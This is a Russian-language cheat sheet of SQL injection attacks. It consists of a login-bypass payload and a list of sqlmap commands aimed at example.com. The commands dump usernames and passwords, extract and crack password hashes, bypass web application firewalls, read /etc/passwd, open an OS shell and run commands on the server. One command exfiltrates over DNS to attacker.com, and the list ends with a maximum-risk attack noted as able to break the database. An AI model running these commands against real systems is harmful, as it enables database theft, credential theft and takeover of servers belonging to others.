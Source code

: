 SQL Injection Payload:
> ```sql
> SELECT * FROM users WHERE username = 'admin' --';
> 



Определение базы данных:
sqlmap -u "http://example.com/index.php?id=1" --dbs

Определение таблиц в базе:
sqlmap -u "http://example.com/index.php?id=1" -D target_db --tables

Определение колонок в таблице:
sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table --columns

Извлечение данных из таблицы:
sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table -C username,password --dump

GET-параметры
sqlmap -u "http://example.com/index.php?id=1"

POST-параметры
sqlmap -u "http://example.com/login.php" --data="username=admin&password=123"

Cookie-параметры
sqlmap -u "http://example.com/profile.php" --cookie="PHPSESSID=abcd1234"

HTTP-заголовки (User-Agent, Referer, X-Forwarded-For и т. д.)
sqlmap -u "http://example.com/" --headers="User-Agent: evil_payload"

Определение типа инъекции
sqlmap -u "http://example.com/index.php?id=1" --technique=U
Где U – Union-based, можно заменить на B (Boolean-based), T (Time-based) и т. д.

Обход WAF (Web Application Firewall)
sqlmap -u "http://example.com/index.php?id=1" --tamper=space2comment
Можно использовать другие tamper-скрипты, например charencode, randomcase и т. д.

Определение уровня привилегий
sqlmap -u "http://example.com/index.php?id=1" --privileges

Получение учетных данных пользователей базы
sqlmap -u "http://example.com/index.php?id=1" --users

Получение хешей паролей
sqlmap -u "http://example.com/index.php?id=1" --passwords

Попытка дешифровки хешей
sqlmap -u "http://example.com/index.php?id=1" --crack

Обход защиты (если есть WAF)
sqlmap -u "http://example.com/index.php?id=1" --random-agent --tamper=space2comment

Автоматическое определение всех уязвимых параметров
sqlmap -u "http://example.com/index.php?id=1" --forms --crawl=3
Ищет SQL-инъекции во всех найденных формах на сайте

Поиск файлов на сервере
sqlmap -u "http://example.com/index.php?id=1" --file-read="/etc/passwd"

Загрузка шелла на сервер
sqlmap -u "http://example.com/index.php?id=1" --os-shell

Запуск команд на сервере
sqlmap -u "http://example.com/index.php?id=1" --os-cmd="whoami"

Обход защиты через Time-based SQL Injection
sqlmap -u "http://example.com/index.php?id=1" --technique=T --time-sec=5

Атака через DNS (Blind SQL Injection)
sqlmap -u "http://example.com/index.php?id=1" --dns-domain=attacker.com

Запуск мощной автоматической атаки
sqlmap -u "http://example.com/index.php?id=1" --level=5 --risk=3 --batch

--level=5 – увеличивает глубину проверки
--risk=3 – максимальный уровень риска (может сломать базу)
--batch – отключает вопросы (запускает атаку автоматически)
